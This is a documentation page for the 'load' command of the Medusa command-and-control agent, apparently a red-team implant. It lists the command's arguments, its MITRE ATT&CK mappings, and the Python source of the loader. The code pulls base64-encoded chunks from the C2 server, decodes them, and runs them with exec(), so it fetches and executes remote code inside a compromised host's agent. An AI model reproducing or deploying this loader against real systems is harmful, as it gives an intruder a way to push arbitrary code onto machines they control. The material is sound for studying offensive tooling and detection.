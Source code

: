 +++
title = "load"
chapter = false
weight = 100
hidden = false
+++

## Summary

This loads new functions into memory via the C2 channel 

- Python Versions Supported: 2.7, 3.8
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500  

### Arguments

#### cmd_to_load

- Description: name of existing Medusa command to load (e.g. shell)
- Required Value: True  
- Default Value: None  

## Usage

```
load cmd
```

## MITRE ATT&CK Mapping

- T1030  
- T1129 

## Detailed Summary
The associated command's python files (selecting the correct Python version where necessary) is base64 encoded, and sent down to the agent to be loaded in. 

```Python
    def load(self, task_id, file_id, command):
        total_chunks = 1
        chunk_num = 0
        cmd_code = ""
        while (chunk_num < total_chunks):
            if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                return "Job stopped."
            data = { "action": "post_response", "responses": [
                    { "upload": { "chunk_size": CHUNK_SIZE, "file_id": file_id, "chunk_num": chunk_num }, "task_id": task_id }
                ]}
            response = self.postMessageAndRetrieveResponse(data)
            chunk = response["responses"][0]
            chunk_num+=1
            total_chunks = chunk["total_chunks"]
            cmd_code += base64.b64decode(chunk["chunk_data"]).decode()

        if cmd_code:
            exec(cmd_code.replace("\n    ","\n")[4:])
            setattr(medusa, command, eval(command))
            cmd_list = [{"action": "add", "cmd": command}]
            responses = [{ "task_id": task_id, "user_output": "Loaded command: {}".format(command), "commands": cmd_list, "completed": True }]
            message = { "action": "post_response", "responses": responses }
            response_data = self.postMessageAndRetrieveResponse(message)
        else: return "Failed to upload '{}' command".format(command)
```

Notably, this implementation implements chunking for this function to facilitate large functions being loaded.